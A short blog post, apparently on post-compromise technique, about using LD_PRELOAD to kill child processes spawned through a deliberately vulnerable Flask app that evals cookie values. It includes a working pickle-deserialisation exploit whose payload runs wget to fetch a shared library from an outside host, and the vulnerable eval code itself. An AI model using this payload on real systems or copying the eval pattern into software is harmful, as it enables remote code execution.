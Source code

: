 ```yaml
---
title:  "Cripple Python Vulnerabilities with LD_PRELOAD"
tags:
  - Python
  - post-compromise
  - LD_PRELOAD
related: false
---
```


On Linux the LD_PRELOAD environmental variable (or /etc/ld.so.preload file) will load the specified shared library files first, selectively overriding functions of any other library found in the LD_LIBRARY_PATH.  This is useful for debugging, patching bugs, and [escalating privileges to root](http://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html).

A novel idea is to use LD_PRELOAD to cripple certain Python vulnerabilities.  Consider the following vulnerable Flask application that allows arbitrary execution of Python code within the process.

```python
from base64 import b64decode
import pickle
from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['GET', 'PUT'])
def index():
    try:
        if 'eval' in request.cookies:
            eval(request.cookies['eval'])

        if 'pickle' in request.cookies:
            eval(b64decode(request.cookies['pickle']))
    except Exception as e:
        print(e)


app.run()
```

Unlike PHP and Java, Python allows the process environmental variables to change at runtime.  Child process inherit the environment from the parent, so by setting the LD_PRELOAD variable we can poison processes created via the vulnerability.  Overriding the `_init` [function](http://www.faqs.org/docs/Linux-HOWTO/Program-Library-HOWTO.html#INIT-AND-CLEANUP) it is possible to kill child process as the linker attempts to load shared library.

```c
#include <stdlib.h>

void
_init() {
    exit(0);
}
```

```bash
gcc -fPIC -shared -nostartfiles -o .so src.c
```

To cripple the vulnerability, download the shared library and set the LD_PRELOAD environment variable.

```python
from base64 import b64encode
import pickle
import requests
import os

payload = '__import__("os").system("wget http://10.0.0.2/.so -O /tmp/.so") & __import__("os").environ.__setitem__("LD_PRELOAD", "/tmp/.so")'

class Exploit(object):
    def __reduce__(self):
        return eval, (payload,)


if True:
    requests.post('http://10.0.0.3:5000/', cookies={'pickle': b64encode(pickle.dumps(Exploit())).decode()})
else:
    requests.post('http://10.0.0.3:5000/', cookies={'eval': payload})
```

